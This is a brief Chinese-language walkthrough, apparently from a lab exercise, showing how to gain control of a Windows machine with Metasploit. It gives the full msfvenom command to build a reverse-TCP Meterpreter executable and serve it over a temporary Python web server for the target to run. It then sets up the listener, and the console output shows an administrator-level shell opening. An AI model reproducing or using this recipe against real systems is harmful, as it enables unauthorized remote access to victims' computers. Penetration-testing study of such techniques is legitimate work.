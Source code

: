 （ps.第二次拿权限的时候直接运行exploit/multi/handler模块搭载PAYLOAD windows/meterpreter/reverse_tcp然后在目标机器上运行脚本程序就行了）
1. 先使用这句           `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.232.131 LPORT=4444 -f exe>ma2.exe`生成一个windows攻击脚本
1. 然后用python3 -m http.server命令生成一个临时服务器
```
root@kali:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.232.134 - - [10/Nov/2019 20:36:54] "GET / HTTP/1.1" 200 -
192.168.232.134 - - [10/Nov/2019 20:36:57] "GET /ma2.exe HTTP/1.1" 200 -
```

3，然后用其他的windows虚拟机访问http://192.168.232.131:8000下载ma2.exe然后再运行

4，到后台使用`use exploit/multi/handler`漏洞利用模块然后`set PAYLOAD windows/meterpreter/reverse_tcp`然后show options查看设置，然后设置攻击的lhost 0.0.0.0和set lport 4444然后exploit
，当用户下载运行ma2.exe后就可以得到权限

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
   msf5 exploit(multi/handler) > set LhOST 0.0.0.0
    LhOST => 0.0.0.0
    msf5 exploit(multi/handler) > set lPORT 4444
    lPORT => 4444
    msf5 exploit(multi/handler) > exploit
    [*] Started reverse TCP handler on 0.0.0.0:4444 
    [*] Sending stage (179779 bytes) to 192.168.232.134
    [*] Meterpreter session 1 opened (192.168.232.131:4444 -> 192.168.232.134:1054) at 2019-11-10 20:36:59 +0800
    
    meterpreter > getuid
    Server username: ROOT-FBD74BACF7\Administrator
    meterpreter > Interrupt: use the 'exit' command to quit
    meterpreter > 

```

